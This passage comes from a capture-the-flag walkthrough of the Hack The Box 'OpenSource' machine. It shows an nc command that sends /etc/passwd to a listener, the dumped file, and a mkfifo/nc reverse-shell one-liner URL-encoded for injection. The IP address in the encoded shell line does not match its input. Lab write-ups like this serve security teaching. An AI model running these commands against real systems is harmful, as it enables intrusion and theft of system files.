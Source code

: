 How about we grab the passwd file by using nc to redirect the file to us:

```text
nc+-nv+10.10.14.116+4444+<+/etc/passwd
```

Start nc listening on Kali ready to receive the file:

```sh
┌──(root㉿kali)-[~/htb/opensource]
└─# nc -nlvp 4444 > passwd 
listening on [any] 4444 ...
```

Paste the URL encoded command in to the browser as before:

![opensource-passwd](/assets/images/2022-05-28-18-22-21.png)

Back to Kali again to see we have the file:

```sh
┌──(root㉿kali)-[~/htb/opensource]
└─# nc -nlvp 4444 > passwd 
listening on [any] 4444 ...
connect to [10.10.14.116] from (UNKNOWN) [10.10.11.164] 38679
```

Let's check it out:

```sh
┌──(root㉿kali)-[~/htb/opensource]
└─# cat passwd                    
root:x:0:0:root:/root:/bin/ash
<SNIP>
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
```

Time for a reverse shell. This is just like we did in [Nunchucks](https://pencer.io/ctf/ctf-htb-nunchucks) recently, so let's use the same one:

```text
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.163 1337 >/tmp/f
```

URL encode it first, we can use Python to do that:

```text
┌──(root㉿kali)-[~/htb/opensource]
└─# python3 -c "import urllib.parse; print(urllib.parse.quote('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.163 1337 >/tmp/f'))"

rm%20/tmp/f%3Bmkfifo%20/tmp/f%3Bcat%20/tmp/f%7C/bin/sh%20-i%202%3E%261%7Cnc%2010.10.14.184%201337%20%3E/tmp/f
```

